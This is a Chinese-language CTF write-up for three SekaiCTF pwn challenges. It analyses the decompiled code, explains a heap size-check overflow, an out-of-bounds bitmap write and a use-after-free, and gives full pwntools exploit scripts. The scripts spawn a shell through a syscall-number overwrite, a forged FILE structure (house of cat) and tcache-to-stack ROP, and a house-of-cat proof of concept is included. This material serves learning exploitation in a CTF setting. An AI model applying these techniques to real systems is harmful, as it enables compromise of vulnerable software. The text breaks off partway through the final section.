






#  nolibc

```bash
[!] Did not find any GOT entries
[*] '/home/llk/Desktop/pwn/sekaictf/nolibc/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

看了下保护，感觉是溢出；只能注册一个账号并用这个账号登录。
~~可以通过数据段中残留的 PIE 地址泄露 PIE~~ ~~后来 Nightu 师傅说可以直接读文件——感觉自己好蠢~~ 

~~后来 tplus 师傅利用了 size 是缓冲区长度而不是整个 chunk 长度这一点，可以溢出修改系统调用号。我当时其实也想到了，但那时源码没逆清楚；后来好好逆了一遍，确实有一个非常明显的 bug~~ 

```c
char *__fastcall alloc(int size)
{
  struct chunk *next_use_chunk; // [rsp+4h] [rbp-20h]
  signed int up_align_16_size; // [rsp+10h] [rbp-14h]
  struct chunk *v4; // [rsp+14h] [rbp-10h]
  struct chunk *v5; // [rsp+1Ch] [rbp-8h]

  if ( !size )
    return 0LL;
  up_align_16_size = (size + 15) & 0xFFFFFFF0;
  v5 = next_use_chunk_ptr;
  v4 = 0LL;
  while ( 1 )
  {
    if ( !v5 )
      return 0LL;
    if ( up_align_16_size <= v5->size )
      break;
    v4 = v5;
    v5 = v5->next_use_chunk;
  }
  if ( v5->size >= (unsigned __int64)(up_align_16_size + 16LL) )
  {
    next_use_chunk = (struct chunk *)&v5->buff[up_align_16_size];
    next_use_chunk->size = v5->size - up_align_16_size - 16;
    next_use_chunk->next_use_chunk = v5->next_use_chunk;
    v5->next_use_chunk = next_use_chunk;
    v5->size = up_align_16_size;
  }
  if ( v4 )
    v4->next_use_chunk = v5->next_use_chunk;
  else
    next_use_chunk_ptr = v5->next_use_chunk;
  return v5->buff;
}
```
首先从 `next_use_chunk` 开始查找 size 大于等于 `up_align_16_size ` 的 use_chunk_ptr。如果找到的 use_chunk_ptr 就是当前最初的 next_use_chunk_ptr（第一个可以使用的 chunk），就直接更新 `   next_use_chunk_ptr = v5->next_use_chunk;`。同时根据 `v5->size >= (unsigned __int64)(up_align_16_size + 16LL)`——即 size 是否大于等于当前 chunk 的总长度（大于等于意味着切分后至少还剩下 0x10 的部分可以作为 chunk_header）——来决定是否切分。如果 size 只满足大于等于 `up_align_16_size `，就通过 ` next_use_chunk_ptr = v5->next_use_chunk;` 迭代（不能切分，说明当前 chunk 恰好够用）

由于最后一个 next_use_chunk 的 size 是剩余长度而不是 buff 长度，而比较时一般都是和缓冲区长度比较，于是剩余长度就被当成了缓冲区长度。当剩余长度为 0x10 时，此时申请 0x20 就会溢出 0x10 字节。

注意分配的大小是输入的 `len+0x10& 0xFFFFFFF0`，而输入内容的长度是 `len+1`，所以输入内容只能填到溢出的那一个字节——但这可以通过 `len=0x xxxf` 来避免

## exp

```python
from pwn import *

p=process("./main")

context(os="linux",arch="amd64",log_level="debug")
p.sendlineafter(b"Choose an option: ",str(2))
p.sendlineafter(b"Username: ",b"llk") 
p.sendlineafter(b"Password: ",b"1010") 

p.sendlineafter(b"Choose an option: ",str(1))
p.sendlineafter(b"Username: ",b"llk") 
p.sendlineafter(b"Password: ",b"1010") 


def add(length,content):
    p.sendlineafter(b"Choose an option: ",str(1))
    p.sendlineafter(b"Enter string length: ",str(length)) 
    p.sendlineafter(b"Enter a string: ",content) 


def dele(index):
    p.sendlineafter(b"Choose an option:",str(2))
    p.sendlineafter(b"Enter the index of the string to delete: ",str(index)) 
  


def show():
    p.sendlineafter(b"Choose an option:",str(3))


def save(filename):
    p.sendlineafter(b"Choose an option:",str(4))
    p.sendlineafter(b"Enter the filename: ",filename) 


def load(filename):
    p.sendlineafter(b"Choose an option:",str(5))
    p.sendlineafter(b"Enter the filename: ",filename) 

# load("/proc/self/maps")
# show()
# leak=p.recv(timeout=2)
# print("[+] leak------------------------")


for i in range(191):
    add((int("0xe0", 16)),"llk")

# gdb.attach(p)

add((int("0x7f", 16)),0x70*b"a"+p32(0)+p32(1)+p32(59)+p32(3))


# pause()

for i in range(191):
    dele(i)

# pause()
load(b"/bin/sh\x00")


p.interactive()

```




# speedpwn


```bash
[*] '/home/llk/Desktop/pwn/sekaictf/speedpwn/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```


记得 .gdbinit 中需要 `set disable-randomization off`
```c
unsigned long long game_history;
unsigned long long seed;
FILE *seed_generator;
……
 if(cmp(player_num, bot_num)) {
        puts("You win!");
        *((unsigned long long*)&game_history + (number_of_games / 64)) |= ((unsigned long long)1 << (number_of_games % 64));
    }
    else {
        puts("Bot wins!");
        *((unsigned long long*)&game_history + (number_of_games / 64)) &= (~((unsigned long long)1 << (number_of_games % 64)));
    }

```

明显的 game_history 溢出，可以对 bss 中更高的地址进行任意写。发送全 1 可以把 game_history 对应的位置 1，发送 0 可以把 game_history 对应的位置 0。

溢出修改 seed_generator 的文件结构体——但是没有地址泄露。我想从栈上的残留泄露 libc，却发现变量都会被输入赋值。~~问了 eurus 师傅，说通过 scanf 输入 - 不会改变残留的 libc，于是就能泄露 libc。没想到 scanf 输入 - 会让残留的 libc 保持不变——我还是太菜了~~ 

这应该是调用 libc 函数时在栈帧上留下的 libc 地址，然后通过 simulate 中的 cmp 进行爆破；每次 simulate 留下的栈帧都是一样的。

爆破利用的是残留 libc 的低 20 位和最高 4 位保持不变这一点（这是我在 ubuntu22.04 上运行看到的，其他师傅的 wp 好像说是低 12 位——不过爆破原理是一样的）。
libc 的最低位是 0，所以从低到高填 1 位；当长度相等时，返回的是 0 而不是 1，由此得到 1 的位数。


- 长度：libc 的最低位是 0，所以从低到高填 1 位；当长度相等时，返回的是 0 而不是 1，由此得到 1 的位数。
- 位：爆破中间的 24 位，从低到高把位置 1；爆破规则如下：

```c
  libc_midd_24    player_midd_24
    ……            ……
    0             0
    1             0 
    0             0
    0             0
    0/1           1    ->   为1相等往高位遍历时由于不相等然后&后一定返回1，为0不相等则返回0    
```


本想覆盖 GOT，但没有能控制参数的函数，而且 seed_generator 只能改一次。于是想通过 IO 劫持控制流然后 getshell。由于不能直接修改 seed_generator 的文件结构体，我利用 bss 上的越界写伪造了一个文件结构体，然后打 IO。

IO 的 house of cat PoC：

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
size_t getlibc()
{
    puts("getlibc");
    size_t result=&puts-0x75b30;
    return result;
}
unsigned long long seed;
FILE *seed_generator;
size_t fake_io[0x100];
int main()
{   
     setvbuf(stdout, NULL, _IONBF, 0);
    size_t libc_base=getlibc();
    printf("libc base %p",libc_base);
    
    seed_generator = fopen("/dev/urandom", "r");
    fread((char*)&seed, 1, 8, seed_generator);


    fake_io[0]=0x3b687320;  //will cover  content that lock point with 1
    fake_io[0x20/8]=0;  //write_base
    fake_io[0x28/8]=1;  //write_ptr
    fake_io[0xa0/8]=fake_io;   //_wide_data  
    fake_io[0x18/8]=0;         //_wide_data->_IO_write_base
    fake_io[0x30/8]=0;     //_wide_data->_IO_buf_base
    fake_io[0xe0/8]=fake_io;    // _wide_data->__wide_vtable 0xe0
    fake_io[0x68/8]=libc_base+0x4e720;  //system  
    fake_io[0x88/8]=fake_io+0x100/8;  // attention fake_io is long*  , lock  address can be write    [fake_io+8]==0         
    fake_io[0xc0/8]=0;  //mode
    fake_io[0xd8/8]=libc_base+0x1d2648-40; //_IO_wfile_jumps-40

    seed_generator=fake_io;


    fread((char*)&seed, 1, 8, seed_generator);

   

    


}
```


## exp

```python
from pwn import *

p=process("./chall")

def set_1():
    p.sendlineafter(b"> ",str("f"))
    p.sendlineafter(b"Player plays: ",str(18446744073709551615))

def set_0():
    p.sendlineafter(b"> ",str("f"))
    p.sendlineafter(b"Player plays: ",str(0))

def simulate(bot,play):
    p.sendlineafter(b"> ",str("s"))
    p.sendlineafter(b"Bot number: ",str(bot))
    p.sendlineafter(b"Player number: ",str(play))


libc=0x7000000955c2
leak_1bit_number_libc=0x7000000955c2+1
num=1

for i in range(48,64):
    tmp=leak_1bit_number_libc
    tmp=tmp|1<<i 

    simulate("-",tmp)
    result=p.recvuntil(b"!")
    if b"Bot win!" in result:
        num=num+1
        leak_1bit_number_libc=leak_1bit_number_libc|1<<i 
    if b"You win!" in result:
        num=num+1
        leak_1bit_number_libc=(leak_1bit_number_libc-1)|1<<i |1<<(i+1) 
        print("1bit_num",num)
        break
    


use_num=0
libc=leak_1bit_number_libc

max_num=num

for i in range(20,44): 

    if use_num==max_num-1:
        tmp=libc
        tmp=tmp&~(1<<44)
        print("& libc",hex(tmp))
        tmp=tmp|1<<i 
        print("try libc",hex(tmp))

        simulate("-",tmp)
        result=p.recvuntil(b"!")
        
        if b"Bot win!" in result:
            print("leak finish")
            libc=tmp|(1<<44)
            libc=libc&~(1<<(use_num+48)) 
    
            break
        continue
    tmp=libc
    tmp=tmp&~(1<<(use_num+48)) 
    print("& libc",hex(tmp))
    tmp=tmp|1<<i 
    print("try libc",hex(tmp))
    simulate("-",tmp)
    result=p.recvuntil(b"!")
   
    if b"Bot win!" in result:
        print("success libc bit",hex(tmp))
        libc=tmp
        use_num=use_num+1
    
libc_base=libc-0x955c2
     

def write_64(content):
    for i in range(64):
        
        if content & (1<<i)!=0:
            set_1()
            
        else:
            set_0()
            
           


write_64(0)
write_64(0)
write_64(0x4040a0)

# fake_io[0]=0x3b687320;  #will cover  content that lock point with 1
# fake_io[0x20/8]=0;  #write_base
# fake_io[0x28/8]=1;  #write_ptr
# fake_io[0xa0/8]=0x4040a0;   #_wide_data  
# fake_io[0x18/8]=0;         #_wide_data->_IO_write_base
# fake_io[0x30/8]=0;     #_wide_data->_IO_buf_base
# fake_io[0xe0/8]=0x4040a0;    # _wide_data->__wide_vtable 0xe0
# fake_io[0x68/8]=libc_base+0x58740;  #system  
# fake_io[0x88/8]=0x4040a0+0x100;  # attention fake_io is long*  , lock  address can be write    [fake_io+8]==0         
# fake_io[0xc0/8]=0;  #mode
# fake_io[0xd8/8]=libc_base+0x202228-40; #_IO_wfile_jumps-40


payload=flat({0:p32(0x3b687320),0x28:p64(1),0x30:p64(0),0x68:p64(libc_base+0x58740),0x88:p64(0x4040a0+0x100),0xa0:p64(0x4040a0),0xc0:0,0xd8:p64(libc_base+0x202228-40),0xe0:p64(0x4040a0)},filler=b'\x00', length=0x100)

# gdb.attach(p)

# context(os="linux",arch="amd64",log_level="debug")
while payload:
    tmp=payload[:8]
    print(u64(tmp))
    write_64(u64(tmp))
    payload=payload[8:]


p.sendlineafter(b"> ",str("r"))
p.interactive()


```



#  life_simulator_2
## 委托构造函数
委托构造函数是 C++11 引入的特性，允许一个构造函数调用同一个类的另一个构造函数。这一特性可以减少代码重复，提高代码的可维护性和可读性。借助委托构造函数，我们可以在一个构造函数中对对象进行标准化的初始化，然后在其他构造函数中复用这段初始化逻辑。

### 委托构造函数的语法

基本语法是通过初始化列表调用另一个构造函数。例如：

```cpp
class Example {
public:
    // 主构造函数
    Example(int a, int b, int c) {
        // 初始化逻辑
        x = a;
        y = b;
        z = c;
    }

    // 委托构造函数，调用主构造函数
    Example(int a, int b) : Example(a, b, 0) {}

    // 委托构造函数，调用主构造函数
    Example(int a) : Example(a, 0, 0) {}

    // 委托构造函数，调用主构造函数
    Example() : Example(0, 0, 0) {}

private:
    int x, y, z;
};
```

### 解释

1. **`Example(int a, int b, int c)`**
   - 这是主构造函数，负责初始化 `x`、`y`、`z` 三个成员变量。

2. **`Example(int a, int b) : Example(a, b, 0) {}`**
   - 这是一个委托构造函数，它调用主构造函数 `Example(int a, int b, int c)`，并把第三个参数 `c` 默认设为 `0`。
   - 这样就避免了在构造函数中重复编写初始化逻辑。

3. **`Example(int a) : Example(a, 0, 0) {}`**
   - 这个构造函数进一步简化：只需要一个参数 `a`，另外两个参数设为 `0`，同样委托给主构造函数。

4. **`Example() : Example(0, 0, 0) {}`**
   - 无参构造函数，所有参数都设为默认值 `0`。


##  std:remove 和 std:erase
这段代码从 `std::vector<Company*> companies` 中移除一个特定的 `Company*` 指针。下面来看看这段代码是如何工作的以及其背后的原理：

### 代码解释

```cpp
companies.erase(std::remove(companies.begin(), companies.end(), company_to_remove), companies.end());
```

1. **`std::remove` 函数**

   - **作用**：`std::remove` 是 C++ 标准库中的一个算法，它重新排列区间 `[first, last)` 中的元素，把所有不等于 `value` 的元素移到前面，并返回一个指向“移除”操作之后新末尾的迭代器。
   - **参数**：
     - `companies.begin()`：指向 vector 开头的迭代器。
     - `companies.end()`：指向 vector 末尾的迭代器。
     - `company_to_remove`：需要从 vector 中移除的特定 `Company*` 指针。
   - **结果**：`std::remove` 并不会真正删除元素，它只是把不需要的元素移到后面，并返回指向新末尾的迭代器。

2. **`companies.erase` 函数**

   - **作用**：`erase` 是 `std::vector` 的成员函数，真正从 vector 中删除指定区间内的元素。
   - **参数**：
     - 第一个参数是 `std::remove` 返回的指向新末尾的迭代器。
     - 第二个参数是 `companies.end()`，指向 vector 真正的末尾。
   - **结果**：`erase` 从 vector 中删除从 `std::remove` 返回的迭代器到 vector 末尾之间的所有元素。

### 原理

- **"remove-erase" 惯用法**：这段代码使用了 C++ 中的 "remove-erase" 惯用法，这是从 STL 容器中删除元素的常见模式。因为 `std::remove` 只重新排列元素而不改变容器的大小，所以需要 `erase` 来真正删除那些多余的元素。

- **效率**：这种方法很高效，因为它只遍历容器一次，用 `std::remove` 移动元素，避免了在循环中多次调用 `erase` 带来的低效。

### 内存管理注意事项

- **删除指针**：使用 `std::vector<Company*>` 时，`erase` 只删除指针本身，并不会释放指针所指向的堆内存。如果 `Company*` 指针是用 `new` 分配的，程序员必须确保在移除之前或之后用 `delete` 释放这些内存，以避免内存泄漏。例如：

  ```cpp
  auto it = std::remove(companies.begin(), companies.end(), company_to_remove);
  for (auto iter = it; iter != companies.end(); ++iter) {
      delete *iter; // 释放堆内存
  }
  companies.erase(it, companies.end());
  ```

## 思路
保护全开。

~~从题目描述来看，好像是从 worker 入手——没用~~ 

~~只发现了一个整数溢出，感觉没什么用；同时注意到 clear 不太正常，因为它没有 free，只是清零~~ 
问了 nightu 师傅才知道是逻辑问题——我是真没注意到……感觉好久没有注意过这种逻辑漏洞了。

整数溢出其实还是有用的。以后要注意溢出后的结果对程序执行流的影响——可能会有意想不到的惊喜。同时，以后也要把代码逻辑理清楚。

在受整数溢出影响的值中，可能影响程序控制流的是 `company_budget`：它会影响 total_net_worth，使其也发生越界。但越界后的 total_net_worth 在其他执行流中似乎仍能被正常理解（逻辑上是正常的）。那么，越界的 `company_budget` 唯一可能影响程序执行流的地方就是这里——不过这个发现的逻辑相当离谱。

```c
void Company::elapse_week() {
    uint64_t total_profit = 0;
    for(auto it : this->projects) {
        total_profit += it->generate_profit() - it->worker_pay();
    }
    this->company_budget += total_profit;
    this->company_age += 1;
    
   if(!(company_to_remove->number_of_workers() == 0 || company_to_remove->get_company_budget() == 0)) {
        std::cerr << "ERR: Not Allowed" << std::endl;
        return;
    }
```
等价于：
```c
company_to_remove->number_of_workers() != 0 && company_to_remove->get_company_budget() != 0
```
这与正常逻辑相反——似乎是故意这么写，让你去尝试把它们设为 0，思考为零的影响：两者至少有一个为 0 才能卖掉。

然后就进入这里：company_to_remove 被释放后进入 0x50 的 tcache。~~本以为可以再申请出来然后泄露堆地址，但每个相关的堆分配实例都会覆盖前八个字节……放弃~~ 
```c
company_to_remove->remove_projects();
    delete company_to_remove;

void Company::remove_projects() {
    for(auto it : this->projects) {
        delete it;
    }
    this->projects.clear();
}
Company::~Company() { 
    this->company_name.clear();
    this->projects.clear();
    this->company_budget = 0;
}
Project::~Project() { 
    this->project_name.clear();
    this->workers.clear();
    this->company = nullptr;
    this->profit_per_week = 0;
}
```
我发现这里的释放并不完整：只释放了 projects 对象（0x48 也进入 0x50 的 tcache），但 project 里的 `std::vector<Worker*> workers {};`——它指向的 Worker 对象并没有被释放。而 Worker 对象中包含 ` Project *project;`，但 project 已经被释放了，所以我们可以通过 workers 得到一个 UAF。

于是选择让 generate_profit() 为零、worker_pay() 等于 company_budget 的思路，使 company_budget 最终变为零。

在 generate_profit() 中，profit_per_week 在这里不能为零。一开始我想看看两者的乘积有没有可能溢出，在转换成 uint64_t 后变成零。

当 `double` 和 `uint64_t` 相乘、结果再转换为 `uint64_t` 时，如果结果超出 `uint64_t` 能表示的范围，就可能发生溢出。在某些情况下，溢出后的结果可能会被转换为 `0`。

### 1. 背景
`uint64_t` 是 64 位无符号整数，其范围是 `[0, 2^64 - 1]`，即 `[0, 18446744073709551615]`。当 `double` 的乘积超出这个范围时，把它转换为 `uint64_t` 就会发生溢出。

在 C/C++ 中，把浮点数转换为无符号整数类型时，如果浮点数超出目标类型的可表示范围，行为是未定义的。具体行为可能因编译器和运行环境而异。在某些系统上，溢出后的结果可能被当作 `0`。

### 2. 示例代码
下面是演示这种情况的示例：

```cpp
#include <iostream>
#include <cstdint>
#include <limits> // For std::numeric_limits

int main() {
    uint64_t a = 18446744073709551615ULL; // uint64_t的最大值
    double b = 2.0; // 将使结果超过uint64_t最大值

    double result_double = a * b; // 先计算乘积，结果为double
    uint64_t result_uint64 = static_cast<uint64_t>(result_double); // 转换为uint64_t

    std::cout << "Double result: " << result_double << std::endl;
    std::cout << "Converted to uint64_t: " << result_uint64 << std::endl;

    return 0;
}
```

### 3. 解释
在这个例子中：
- `a` 是 `uint64_t` 类型的最大值 `18446744073709551615`。
- `b` 是 `double` 值 `2.0`。

`a` 和 `b` 相乘的结果是 `36893488147419103230`（即 `2 * 18446744073709551615`），远远超出了 `uint64_t` 类型的最大值。

把 `result_double` 转换为 `uint64_t` 时，由于结果超出了 `uint64_t` 的可表示范围，行为是未定义的。在某些编译器或运行环境下，溢出后的结果可能被当作 `0`。


```cpp
Double result: 3.68935e+19
Converted to uint64_t: 0
```
那么只要让 `number_of_workers` 和 `profit_per_week` 尽可能大就行了。


或者看看 `std::pow((long double)PROFIT_RATIO, this->number_of_workers())` 有没有可能为零——但它不太可能为零。
```c
uint64_t Project::generate_profit() {
    return this->profit_per_week * std::pow((long double)PROFIT_RATIO, this->number_of_workers());
    //果 PROFIT_RATIO 是 1.1，number_of_workers() 返回 3，那么这个表达式就会计算 1.1³。
}
```

UAF 之后，连续申请 company 占据原来的对象，然后为该 company 申请一个 project，让 vector 部分被正常填好。否则把这个 company 当作对象使用时，`Company* Project::get_company() ` 会返回 0，而之后的代码会对 `get_company` 返回的 company 进行访问操作。然后打算用 workers_info 泄露地址。

一开始感觉泄露不了，占位也感觉有问题，因为对应的 `Company 位置并不是 Company 对象，按 Company 访问可能会出错——主要是 get_company_name 和 number_of_projects`，而且那个位置也没有恰好与输入内容匹配的残留数据。但我还是决定试一试，调试时发现了 `Project workers count: 11941248770158`。结合对应的函数和当时的布局：

```c
__int64 __fastcall std::vector<Worker *>::size(_QWORD *a1)
{
  return (__int64)(a1[1] - *a1) >> 3;
}

company占据project
pwndbg> tele 0x56e24f210390 12
00:0000│ rax 0x56e24f210390 —▸ 0x56e24f2103a0 ◂— 0x7375727565 /* 'eurus' */
01:0008│     0x56e24f210398 ◂— 5
02:0010│     0x56e24f2103a0 ◂— 0x7375727565 /* 'eurus' */
03:0018│     0x56e24f2103a8 ◂— 0
04:0020│     0x56e24f2103b0 ◂— 0x3f2
05:0028│     0x56e24f2103b8 ◂— 0
06:0030│     0x56e24f2103c0 —▸ 0x56e24f210370 —▸ 0x56e24f210650 —▸ 0x56e24f210660 ◂— 0x56e2006e7770 /* 'pwn' */
07:0038│     0x56e24f2103c8 —▸ 0x56e24f210378 ◂— 0
08:0040│     0x56e24f2103d0 —▸ 0x56e24f210378 ◂— 0

```
意外地发现 `a1[1] 是 0x56e24f210370 `，而 `*a1 是 0`，再 `>>3`——所以此时 `11941248770158 就是右移 3 位的结果`。

此时通过 `Company* Project::get_company()` 得到的 `Company` 如下：

```bash
pwndbg> tele 0x56e24f210378 12
00:0000│  0x56e24f210378 ◂— 0      #  std::string company_name {""};
01:0008│  0x56e24f210380 ◂— 0
02:0010│  0x56e24f210388 ◂— 0x51 /* 'Q' */
03:0018│  0x56e24f210390 —▸ 0x56e24f2103a0 ◂— 0x7375727565 /* 'eurus' */
04:0020│  0x56e24f210398 ◂— 5    #company_budget
05:0028│  0x56e24f2103a0 ◂— 0x7375727565 /* 'eurus' */   #    uint64_t company_age {0};
06:0030│  0x56e24f2103a8 ◂— 0  # std::vector<Project*> projects {};
07:0038│  0x56e24f2103b0 ◂— 0x3f2
08:0040│  0x56e24f2103b8 ◂— 0
09:0048│  0x56e24f2103c0 —▸ 0x56e24f210370 —▸ 0x56e24f210650 —▸ 0x56e24f210660 ◂— 0x56e2006e7770 /* 'pwn' */
0a:0050│  0x56e24f2103c8 —▸ 0x56e24f210378 ◂— 0
0b:0058│  0x56e24f2103d0 —▸ 0x56e24f210378 ◂— 0

```

然后感觉一切都应该围绕 worker 展开，因为其他操作都是正常操作：`hire_worker 对可 UAF 的 worker 的相关操作似乎没有影响；fire_worker 用不了，因为对应的对象被 company 占据，vector 不完整；move_worker 同样因为不完整而无法成功`……

通过 string 伪造 company 似乎没用（因为 worker 相关的函数直接与 project 绑定）。

攻击 ` std::string`：字符串太长时会在堆上创建。如果申请的 company 名字太长，就会先申请一个堆块存放 company，再申请另一个堆块存放字符串——而存放字符串的 chunk 正好对应原来 worker 的 project。但 add 过程中会在堆上申请很多字符串缓冲区（大约三个：company 之前一个，company 之后两个），大小为字符串长度 + 0x10。所以需要提前做好准备。

```c
Allocated chunk | PREV_INUSE
Addr: 0x5b81513c76b0  //add后被free
Size: 0x40 (with flag bits: 0x41)

Allocated chunk | PREV_INUSE
Addr: 0x5b81513c76f0
Size: 0x50 (with flag bits: 0x51)

Allocated chunk | PREV_INUSE
Addr: 0x5b81513c7740   //add后被free
Size: 0x40 (with flag bits: 0x41)

Allocated chunk | PREV_INUSE
Addr: 0x5b81513c7780
Size: 0x40 (with flag bits: 0x41)

```
用 0x50 时，会连续申请四个大小为 0x50 的 chunk；第二个是 company，第四个是字符串的。

进入 add 之前：

```bash
要使得0x5b35e9aef6c0被string覆盖，但由于一开始会申请一个0x50的缓冲区，然后分配company，导致0x5b35e9aef6c0 没有被覆盖为company
 
0x50 [  3]: 0x5b35e9aee600 —▸ 0x5b35e9aef6c0 —▸ 0x5b35e9aef850 ◂— 0

Allocated chunk | PREV_INUSE
Addr: 0x5b35e9af05c0
Size: 0x50 (with flag bits: 0x51)

add结束后

pwndbg> tele 0x5b35e9aee600 
00:0000│  0x5b35e9aee600 ◂— 0x5b305af062be
01:0008│  0x5b35e9aee608 ◂— 0x9d6f99e477f2dda3
02:0010│  0x5b35e9aee610 ◂— 'llllllllllllllllllllllllllllllllllllllllllllllll'
... ↓     5 skipped
pwndbg> tele 0x5b35e9aef850 
00:0000│  0x5b35e9aef850 ◂— 0x5b35e9aef
01:0008│  0x5b35e9aef858 ◂— 0x9d6f99e477f2dda3
02:0010│  0x5b35e9aef860 ◂— 'llllllllllllllllllllllllllllllllllllllllllllllll'
... ↓     5 skipped
pwndbg> tele 0x5b35e9af05c0
00:0000│  0x5b35e9af05c0 ◂— 0xa30 /* '0\n' */
01:0008│  0x5b35e9af05c8 ◂— 0x51 /* 'Q' */
02:0010│  0x5b35e9af05d0 ◂— 'llllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllll'
... ↓     5 skipped


```
可以用下面的布局解决：

```bash
add_company(b"wait1 ",str(1200).encode())
add_company(b"wait2 ",str(1200).encode())
add_company(b"wait3 ",str(1200).encode())
add_company(b"wait4 ",str(1200).encode())

sell_company(b"wait3 ") 
sell_company(b"wait2 ") 
sell_company(b"wait1 ")   
sell_company(b"wait4 ")   
```
~~然后在堆上找找有没有残留的 libc 地址或栈地址，把 company 挪到那里的某个偏移处，再用 worker_info 泄露~~——我真蠢。突然想到：直接申请一个字符串 chunk 能进入 unsorted bin 的 company 就行了。

但坏消息是，按下面的布局，`0x64985160e6c0 ` 会被释放，导致原来的字符串被一些更大的地址占据，所以要确保 `0x64985160e6c0 ` 是最后一个。

```bash
#0x50 [  3]: 0x64985160d600 —▸ 0x64985160e6c0 —▸ 0x64985160e850 ◂— 0

#0x50 [  4]: 0x64985160f5c0 —▸ 0x64985160d600 —▸ 0x64985160e6c0 —▸ 0x64985160e850 ◂— 0

pwndbg> tele 0x5be0f554e6c0
00:0000│  0x5be0f554e6c0 ◂— 0x5be0f554e
01:0008│  0x5be0f554e6c8 ◂— 0x18ebbc21ea61c452
02:0010│  0x5be0f554e6d0 ◂— 0x6c6c6c6c6c6c6c6c ('llllllll')
... ↓     4 skipped
07:0038│  0x5be0f554e6f8 —▸ 0x5be0f55504a0 ◂— 0
```
但它仍然不满足 project 头部字符串对象的格式。不过我们可以构造一个——直接照着复制一份过来就行——然后把头部的字符串地址设为要泄露 libc 的地址。再把 company 设成一个已存在的 company，以避免 company 访问和字符串对象出问题。

```bash
pwndbg> tele 0x584af5e746c0  12
00:0000│  0x584af5e746c0 ◂— 0x6c6c6c6c6c6c6c6c ('llllllll')
... ↓     6 skipped
07:0038│  0x584af5e746f8 —▸ 0x584af5e764a0 ◂— 0

```
但麻烦的是只有字符串长度为 0x47 时才会分配 0x50 的 chunk——0x48 就不行——所以 company 的低字节也不行。不过只需要 7 个字节，因为堆地址只有 6 个字节。呼。

可恶，忘了可以把它 free 回去再申请出来，重新修改 company 和 project……结果构造了两次……

剩下的部分，一开始想用 ROP 劫持，却找不到可以打的点；有一个写堆地址的地方我以为没用……

问了 tplus 师傅——太强了：写堆地址 -> 任意地址写堆地址 -> 写 tcache_struct -> fd 指到栈上构造 ROP。

由于 worker 无法伪造——这里 worker 的前八个字节是字符串的地址——所以字符串也要弄大一点，然后让字符串内容包含栈地址，这样就出来了。


关系如下图所示：

move_worker 从 project1 移到 project2 时，如果 vector_begin 是 tcache_struct 上的相关地址，就会把一个堆地址写到 tcache_struct 上；然后通过该堆块的 fd 申请到栈上做 ROP。相关的伪造结构都通过申请字符串堆块来替换。

注意，如果输入的字符中含有 "\x20" 字节，会被识别为空格，从而导致出错。


## vector 插入逻辑

```c
__int64 __fastcall std::vector<Worker *>::emplace_back<Worker *&>(__int64 a1, __int64 a2)
{
  __int64 v2; // rax
  __int64 v3; // rax
